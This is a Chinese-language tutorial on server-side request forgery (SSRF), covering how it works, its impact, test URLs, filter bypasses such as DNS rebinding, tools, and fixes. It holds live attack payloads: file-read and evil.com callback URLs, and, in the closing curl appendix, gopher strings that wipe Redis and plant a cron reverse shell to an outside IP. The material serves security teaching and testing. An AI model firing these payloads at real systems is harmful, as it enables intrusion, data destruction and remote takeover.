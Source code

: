 ### 简介

SSRF (Server Side Request Forgery) 

### 原理

"隔山打牛"
```
Attacker --【1】req1-payload-->  Server1(存在SSRF漏洞) ---【2】req2--> Server2
     /\                           |        /\                        \/ 
     |                           \/        |                          | 
     '----<----【4】resp1----<----'        '---<---【3】resp2----<-----' 
```

攻击者通过控制Requset1中的参数值，发送Requset1到存在SSRF漏洞的Server1，以Server1为"跳板"发出Requset2,通常根据判断Response2的情况(内容、响应时间等),来实现探测内网主机(IP/port/service...)等利用方式

* SSRF漏洞产生的条件
  * SSRF漏洞产生的条件 - 任何能够使server发起网络请求的功能 都可能存在SSRF
* SSRF漏洞产生的直接原因
  * 参数值过滤不严 - http请求中带有"URL地址"参数值 传给web后端且不经过未严格过滤参数值 就去访问"URL地址"参数值 获取资源(图片.png、图标.ico、网页.html、文本.txt..而攻击者会以获取"其他资源"的方式进行SSRF漏洞利用)
* SSRF漏洞利用的条件
  * 网络可达 - web服务端所在的服务器与其他服务器是网络可达的
* 造成SSRF的常见场景 
  * 资源下载（如图片)
  * 分享
  * url跳转
  * 网页转码(将网页内容变为适应手机屏幕的格式)
  * 文件及编码处理(ffmpeg、ImageMagic)
  * web在线代理
  * ...

### 漏洞影响

* 内网
  * 探测内网(IP/port/service...)
    * ip 探测内网存活主机
    * service 端口开放情况 如数据库类的服务 （常用判断依据：HTTP响应码、HTTP响应时长）
    * Cloud Instances 如果含有SSRF漏洞的Web应用运行在云实例 可以尝试获取云服务商提供的让内部主机查询自身的元数据
      * AWS(Aws keys, ssh keys and [more](https://medium.com/@madrobot/ssrf-server-side-request-forgery-types-and-ways-to-exploit-it-part-1-29d034c27978))
      * Google Cloud
  * 攻击内网其他主机
    * 高危漏洞(SQLi、Struts2、Redis未授权、MongoDB未授权...)
  * 读取文件
    * 类型1 支持了URL Schema(file等协议)
      * 实例 `/click.jsp?url=http://127.0.0.1:8082/config/dbconfig.xml` [21CN某站SSRF(可读取本地数据库配置文件、探测内网)](https://www.secpulse.com/archives/29452.html)
    * 类型2
      * ImageMagick CVE-2016-3718
      * discuz x2.5/x3.0/x3.1/x3.2 SSRF漏洞
      * Ffmpeg文件读取漏洞 CVE-2016-1897  CVE-2016-1898
        * 实例 [新浪微盘存在Ffmpeg文件读取漏洞-SSRF](https://www.secpulse.com/archives/49510.html)
        * 解析 [FFmpeg任意文件读取漏洞分析 - 知乎](https://zhuanlan.zhihu.com/p/28255225)
* 外网
  * 对外发起请求(攻击其他网站等恶意行为)

### 测试方法

* URL Schema
  * `file://` `http://example.com/ssrf.php?url=file:///etc/passwd`
  * `dict://` `http://example.com/ssrf.php?dict://evil.com:1337/`
  * `sftp://` `http://example.com/ssrf.php?url=sftp://evil.com:1337/`
  * `ldap://` 轻量级目录访问协议
    * `http://example.com/ssrf.php?url=ldap://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldaps://localhost:1337/%0astats%0aquit`
    * `http://example.com/ssrf.php?url=ldapi://localhost:1337/%0astats%0aquit`
  * `tftp://` TFTP（Trivial File Transfer Protocol,简单文件传输协议
    * `http://example.com/ssrf.php?url=tftp://evil.com:1337/TESTUDPPACKET`
  * `gopher://` Gopher是一种分布式文档传递服务
    * `http://example.com/ssrf.php?url=http://attacker.com/gopher.php`

### 测试方法及原理 - 以gopher为例

前提：存在SSRF漏洞的web后端所在的服务器必须支持gopher协议，攻击者构造http请求中的payload，发送给web后端，在其服务器上解析gopher协议并向内网主机(或任何网络可达的主机)的任意的端口发送应用层数据。

先在攻击者公网主机test2.com上监听1337端口，看一会能否收到数据:
```
evil.com:# nc -lvp 1337
```

gopher.php (在攻击者的公网web服务器test1.com上) :
如果有http请求访问 http://test1.com/gopher.php 则httpResponse将会是一个301、302跳转，使用gopher协议对某主机的某端口发送数据。
```
<?php
  header('Location: gopher://test2.com:1337/_Hi%0Assrf');
?>
```

攻击者构造http请求，试图让 存在SSRF漏洞的web后端所在的服务器 去访问 http://test1.com/gopher.php


测试结果，攻击者公网主机test2.com的1337端口，收到了 存在SSRF漏洞的web后端所在的服务器 发来的数据：
```
Hi
ssrf
```

[SSRF Tips](http://blog.safebuff.com/2016/07/03/SSRF-Tips/) `SSRF PHP function` `SFTP Dict gopher TFTP file ldap`


### 绕过技巧

  * 使用@绕过不严谨的过滤 `a.com@10.10.10.10` `a.com:b@10.10.10.10`
  * IP地址变形 - 进制转换 `127.0.0.1 => 2130706433`
  * 域名解析 - `10.100.21.7 => http://10.100.21.7.xip.io 或 http://www.10.100.21.7.xip.name`[有道翻译SSRF修复不完整再通内网](https://www.secpulse.com/archives/50153.html)
  * DNS重绑定 DNS Rebinding
    * 攻击者提交参数给后端
    * 后端验证:对hack.cn进行第1次域名解析 得到了合法的外网ip(hack.cn的DNS服务器设置为TTL=0) 该域名对应的ip非内网 域名验证通过
    * 攻击者修改域名解析:(此时攻击者利用短暂的时间差 修改域名解析的ip为内网ip)
    * 后端逻辑继续运行:后端的程序逻辑继续使用刚才的域名hack.cn(由于hack.cn的DNS服务器设置的TTL为0 后端只能第2次对hack.cn进行域名解析)
    * 后端使用了解析得到的内网ip
  * 短网址跳转 -  永久重定向(301)到内网地址 `http://10.10.116.11 => http://t.cn/RwbLKDx`[有道翻译SSRF修复不完整再通内网](https://www.secpulse.com/archives/50153.html)
  * JS跳转
  * 以下工具

SSRF测试工具/利用工具

|名称|属性|描述|
|:-------------:|--|-----|
|[cujanovic/SSRF-Testing](https://github.com/cujanovic/SSRF-Testing)|python|生成不同形式的SSRF payload (IP obfuscator ...)|
|[D4Vinci/Cuteit(IP obfuscator)](https://github.com/D4Vinci/Cuteit)|python2|IP obfuscator 将恶意IP改为各种格式以绕过安全检测|
|[samhaxr/XXRF-Shots](https://github.com/samhaxr/XXRF-Shots)|node.js|生成payload 发送众多请求 并使用phantomJS实现网页截图|
|[swisskyrepo/SSRFmap](https://github.com/swisskyrepo/SSRFmap)|python3|Automatic SSRF fuzzer and exploitation(RCE...) tool|
|[tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)|python2|生成gopher link 以利用SSRF实现RCE. This tool generates gopher link for exploiting SSRF and gaining RCE in various servers |

### 修复方式

* 禁用协议 - 仅允许必要的协议 如http和https
* 禁止跳转
  * 301 redirect 永久性转移(Permanently Moved)
  * 302 redirect 暂时性转移(Temporarily Moved)
* 严格限制参数值内容-域名白名单
* 严格限制参数值长度


-------


### 附-利用cURL支持的协议

cURL支持的协议很多
```
$ curl -V
curl 7.47.1 (x86_64-apple-darwin15.3.0) libcurl/7.47.1 OpenSSL/1.0.2g zlib/1.2.8  
Protocols: dict file ftp ftps gopher http https imap imaps pop3 pop3s rtsp smb smbs smtp smtps telnet tftp  
Features: IPv6 Largefile NTLM NTLM_WB SSL libz TLS-SRP UnixSockets
```

```
# dict protocol (操作Redis)
# 本地测试
curl -vvv 'dict://127.0.0.1:6379/info'
```

```
# file protocol (任意文件读取)
# 本地测试
curl -vvv 'file:///etc/passwd'
```

```
# gopher protocol (利用redis写入var/spool/cron实现反弹Bash)  注意:会清空redis的数据!
# 本地测试 方式1
curl -vvv 'gopher://127.0.0.1:6379/_*1%0d%0a$8%0d%0aflushall%0d%0a*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$64%0d%0a%0d%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/1.1.1.1/9999 0>&1%0a%0a%0a%0a%0a%0d%0a%0d%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0aquit%0d%0a'

# 本地测试 方式2
curl -v 'gopher://127.0.0.1:6379/_*3%0d%0a$3%0d%0aset%0d%0a$1%0d%0a1%0d%0a$57%0d%0a%0a%0a%0a*/1 * * * * bash -i >& /dev/tcp/1.1.1.1/9999 0>&1%0a%0a%0a%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$3%0d%0adir%0d%0a$16%0d%0a/var/spool/cron/%0d%0a*4%0d%0a$6%0d%0aconfig%0d%0a$3%0d%0aset%0d%0a$10%0d%0adbfilename%0d%0a$4%0d%0aroot%0d%0a*1%0d%0a$4%0d%0asave%0d%0a*1%0d%0a$4%0d%0aquit%0d%0a'

# 远程测试 方式3
curl -v 'http://xxx.com/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A6379%2F_%2A3%250d%250a%243%250d%250aset%250d%250a%241%250d%250a1%250d%250a%2456%250d%250a%250d%250a%250a%250a%2A%2F1%20%2A%20%2A%20%2A%20%2A%20bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F1.1.1.1%2F9999%200%3E%261%250a%250a%250a%250d%250a%250d%250a%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%243%250d%250adir%250d%250a%2416%250d%250a%2Fvar%2Fspool%2Fcron%2F%250d%250a%2A4%250d%250a%246%250d%250aconfig%250d%250a%243%250d%250aset%250d%250a%2410%250d%250adbfilename%250d%250a%244%250d%250aroot%250d%250a%2A1%250d%250a%244%250d%250asave%250d%250a%2A1%250d%250a%244%250d%250aquit%250d%250a'
```

